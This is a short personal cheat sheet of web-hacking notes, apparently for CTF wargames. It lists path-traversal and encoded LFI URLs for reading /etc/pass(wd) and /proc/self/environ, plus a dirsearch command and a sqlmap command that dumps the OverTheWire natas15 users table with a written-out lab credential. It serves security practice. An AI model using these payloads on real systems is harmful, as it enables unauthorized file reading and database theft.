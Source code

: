 ## Notes

Some notes to remember for Web.

### Web Upload

If we have a LFRU (Local File Remote Upload) we use:
`http://website.com:port/files/../../../../etc/pass`.
If that doesnt work we then use
`http://website.com:port/files/..%2F..%2F..%2F..%2Fetc%2Fpass`
for LFI.

If `etc/pass` is useless we use then `/proc/self/environ` by `http://website.com:port/files/..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron`
Add more %2F inbetween if needed.


### Tools

## dirsearch

python3 dirsearch.py -u host --proxy=http://host:port/ -e sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

## SQL Map
./sqlmap.py --auth-type=basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J -u http://natas15.natas.labs.overthewire.org/index.php --data="username=a" -p username --string=doesn --level=5 --user-agent=Mozilla --dbms=MySQL --threads 4 -D natas15 -T users --dump
